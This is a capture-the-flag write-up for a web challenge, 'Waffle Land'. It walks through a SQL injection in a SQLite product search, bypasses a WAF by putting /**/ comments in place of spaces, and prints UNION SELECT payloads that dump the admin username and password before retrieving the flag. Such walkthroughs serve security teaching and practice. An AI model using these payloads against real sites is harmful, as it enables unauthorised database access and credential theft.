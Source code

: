 # Waffle Land | Web

*We got hacked, but our waffles are now safe after we mitigated the vulnerability.*

There appears to be only to main functionalities to this webpage, searching using the search bar or signing in using a username and a password, as we don't have any credentials let's try to fiddle with the search option.

The search option returns only the waffles that has the search parameter in them, trying to insert the character `'` gives an error:

```
Bad Request

(sqlite3.OperationalError) unrecognized token "'"
[SQL: select * from product where name like '%'%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

This gives us information about two things.  Firstly, we know that the search option uses SQL to filter data, SQL is a language designed for managing and querying databases (with SQL it is common to think of databases as tables with rows of data and columns of attributes).  In this case, an SQL query is used to sellect all the products with a value in the name attribute similar to the input given.

Secondly, we know that the web server uses SQLite3 management system.  This has someinfluence on the version of SQL and on the operations we can use or exploit.

A common attack against SQL is SQL injection (SQLi).  Computers cannot differentiate between data and commands and as such it is sometimes possible to inject commands where data is requested, for example we can search for `' limit 1 -- -` and this will cause the SQL management system to execute the following (if it is vulnerable to SQLi):

```
select * from product where name like '' limit 1
```

This query should return the first row of data in the `product` table.  To prevent this attack, there are mechanisms put in place to filter/sanitise the input given, for example a Web Application Firewall (WAF).  This type of system monitors the HTTP traffic of a web server and prevents attacks such as SQLi by blocking traffic.

Trying to access the `users` table with `' union select 1,2,3,4,5 -- -` reveals that we are up against a WAF.  To filter this I used `/**/union/**/select`.  The `/**` symbol signifies the start of a comment and `*/` signifies the end of a comment.  This gives us the following:

```
2
$4
3
```

So now we have a way to add data to the output, we still need to get data about the users so we need to know the name of table which stores users data and the attributes of the table, checking if we can select data from a table named `users` by using `'/**/union/**/select 1,2,3,4,5 from users -- -` gives us an error but by checking for `user` seems to work so we can guess there is a table named `user` in the database, we need to get usernames and passwords from this table, I discovered through trial and error that there attributes named `password` and `username` so we can search for the following to get the data we need from this table:

```
' and 0=1/**/union/**/select/**/1,username,password,4,5 from user -- -
```

The query will be:

```
select * from product where name like '' and 0=1/**/union/**select/**/1,username,password,4,5 from user -- -
```

this will first select the data from the product table and filter only the data that satisfy the condition `0=1`, so the query will filter all the data from the product table, then it adds the data in the username and the password columns of the table user and uses number 1,4 and 5 to pad the data so we can use union, from the search we get the password and the username for admin:

```
admin
$4
NT7b#ed4$J?eZ#m_
```

We can now login and retrieve the flag:

```
Congratulations here is your flag: flag{check_your_WAF_rules}
```

```
flag{check_your_WAF_rules}
```
